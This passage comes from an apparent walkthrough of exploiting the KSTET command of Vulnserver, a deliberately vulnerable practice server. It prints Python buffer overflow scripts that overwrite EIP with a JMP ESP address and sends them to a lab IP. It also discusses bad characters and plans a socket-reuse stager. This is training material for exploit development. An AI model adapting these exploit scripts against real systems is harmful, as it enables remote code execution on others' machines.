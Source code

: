 ```c
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"KSTET "+payload))
s.close()
sys.exit()
```

Since our buffer space is low, we will be passing set of 70 bytes of characters in sequence to analyse it in the memory

After covering all characters, we could confirm that ```null byte``` is the only bad character

## Redirecting code execution

Since, this command is similar to ```GTER``` we will be trying the same scripts used before,

```c
──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ cat jmp-esp.py 
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*70
# to overwrite EIP with JMP ESP
payload+=b"\xaf\x11\x50\x62"
payload+=b"D"*4
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"KSTET "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ python3 jmp-esp.py
```

After crashing, we can see that we landed perfectly on ESP memory

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/kstet-1-jmpesp.png">
</div>

So, we have successfully redirected our program flow

Next we have to point it with our shellcode

But the main constraint here is our buffer size, it is so small to fit our shellcode in it

What we can do is, place an ```egg hunter / opcodes for re-using socket``` to get the second stage shellcode to exploit the program

In this blog we will try to exploit this by using ```socket reusage stager```

## Stack pivoting
